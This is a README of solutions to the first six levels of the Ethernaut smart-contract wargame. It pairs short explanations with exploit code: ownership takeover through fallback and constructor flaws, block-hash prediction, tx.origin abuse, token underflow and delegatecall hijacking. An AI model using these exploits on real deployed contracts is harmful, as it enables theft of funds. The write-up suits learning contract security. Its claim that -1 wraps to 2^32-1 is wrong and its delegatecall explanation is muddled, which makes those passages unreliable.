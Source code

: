 # Ethernaut Solutions by aki

## Usage

This repo uses Hardhat and ethers.js stack to interact with the Ethernaut contracts. The solutions below, however, endeavor to use the console to execute any required scripts, and therefore use web3 as it is injected into the Ethernaut console. If you fork this repo, be sure to include a `.env` file that follows the same format as the given `.env.example` file.

A couple of npm scripts make it easy to run the code yourself:
1. `npm run solve --level=X` solves the corresponding level, deploying contracts if necessary.
2. `npm run deploy --level=X` only deploys the corresponding contract to the Rinkeby testnet, if it exists. 

## Solutions

### 1. Fallback
A fallback function is called when a contract receives ETH in a transaction that is not handled by any of its methods. This contract's fallback function has a vulnerability that allows us to gain control of the contract and therefore call its `withdraw` method.
```typescript
await contract.contribute({ value: 1 });
await contract.send({ value: 1 }); // Trigger fallback
await contract.withdraw();
```

### 2. Fallout
Before Solidity v0.4.23, constructors were denoted using a function name that was the same as the contract's name. Constructors are only ever called once, during contract creation, but in the case that the constructor's name does not match the contract, it is possible to call it repeatedly as a normal function. The constructor in this level has a typo that allows us to call it and gain control of the contract.
```typescript
await contract.Fal1out();
await contract.collectAllocations();
```

### 3. Coin Flip
This contract attempts to create its own source of randomness by performing some operations on the block number of the block that the `flip` method is mined into. Because the blcok number and these operations are all public, we can create a contract that uses the same calculations to compute the result of the flip before calling original `flip` method.
```solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/math/SafeMath.sol";

contract Level3 {
  using SafeMath for uint256;

  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  CoinFlip cf = CoinFlip(INSTANCE_ADDRESS);

  function attack() public {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));
    cf.flip(blockValue.div(FACTOR) == 1);
  }
}

abstract contract CoinFlip {
  function flip(bool _guess) virtual public returns (bool);
}
```

We can pair the contract with a simple script that calls our `attack` method the requisite amount of times, ensuring each subsequent call happens only after the previous has been mined. We cannot simply do this in the `Level3` contract above as the block number must be different between flips as enforced in the original CoinFlip contract. Using Metamask as our provider is annoying here because we must provide manual confirmation for each transaction, so we will use ethers locally:
```typescript
const contract = await ethers.getContractAt(
  'Level3', 
  LEVEL3_CONTRACT_ADDR, 
  (await ethers.getSigners())[0]
);

for (let i = 0; i < 10; i++) {
  await (await contract.attack()).wait();
}
```

### 4. Telephone
`tx.origin` and `msg.sender` are different in a call chain. `tx.origin` always corresponds to the user (EOA) that starts the call chain, whereas `msg.sender` corresponds the caller of the current method/contract (and can thus be an EOA or a contract). For example, if user A calls contract B which calls contract C, within the method call to C, `msg.sender` refers to B while `tx.origin` refers to A. We can use this to our advantage by creating a contract that calls the `Telephone` contract's `changeOwner` method. 
```solidity
pragma solidity ^0.8.0;

contract Level4 {
  Telephone t = Telephone(INSTANCE_ADDRESS);

  function attack() public {
    t.changeOwner(msg.sender);
  }
}

abstract contract Telephone {
  function changeOwner(address _owner) virtual public;
}
```

We simply call our `attack` method to gain control of the `Telephone` contract.
```typescript
await sendTransaction({
  to: LEVEL4_CONTRACT_ADDRESS,
  from: WALLET_ADDRESS,
  data: web3.eth.abi.encodeFunctionSignature('attack()'),
});
```

### 5. Token
The `uint` type in Solidity is an unsigned integer and can never be negative. Negative numbers are represented with two's complement, so -1 is stored as 2^32-1. We can exploit this by transferring more tokens than we have to another address, so that our balance is negative and wraps around to a large positive number.
```typescript
await contract.transfer('0x0000000000000000000000000000000000000000', 50);
```

### 6. Delegate
`delegatecall` is a function that allows us to pass data to and call methods from another contract. It differs from the more common `call` function in that it does not modify the state of the contract that is being called, only the state of the calling contract, which **must** have an identical storage layout as the contract being called. Indeed, we can see that the `Delegate` and `Delegation` contracts share slot0 of their storage. We can exploit this to call `pwn()` in the `Delegate` contract through the `delegatecall` in the fallback method of the `Delegation` contract, which will update the storage (ie the `owner` field) of the `Delegation` contract to our address.
```typescript
await contract.sendTransaction({
  to: INSTANCE_ADDRESS,
  data: web3.eth.abi.encodeFunctionSignature('pwn()'),
});
```
